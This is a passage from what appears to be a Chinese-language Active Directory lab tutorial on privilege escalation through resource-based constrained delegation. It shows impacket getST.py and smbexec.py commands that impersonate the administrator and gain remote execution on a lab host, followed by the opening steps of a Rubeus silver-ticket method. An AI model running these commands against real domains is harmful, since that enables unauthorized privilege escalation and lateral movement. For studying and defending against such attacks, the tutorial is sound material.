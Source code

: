 ```bash
./getST.py -dc-ip dc.hacke.testlab hacke.testlab/evilsystem$:evil -spn cifs/win7-test.hacke.testlab -impersonate administrator 
export KRB5CCNAME=administrator.ccache
./smbexec.py -no-pass -k win7-test.hacke.testlab
```

[![](assets/1705982146-409164735a03bf386e55d1b92b6182eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223835-97ba5adc-b7a1-1.png)

#### Rubeus 提权

Step 1：在 Windows server 2008 R2 中得普通域用户 Al2ex 无法访问 win7-test

[![](assets/1705982146-41d48d9634feb534d6705ba91807bcca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223849-a00c3106-b7a1-1.png)  
Step 2：清空票据  
[![](assets/1705982146-e1e8783311070a09a0f950096dee8a1a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223859-a5ad5450-b7a1-1.png)  
Step 3：之后在 Windows server 2008 R2 中使用 rebues 请求白银票据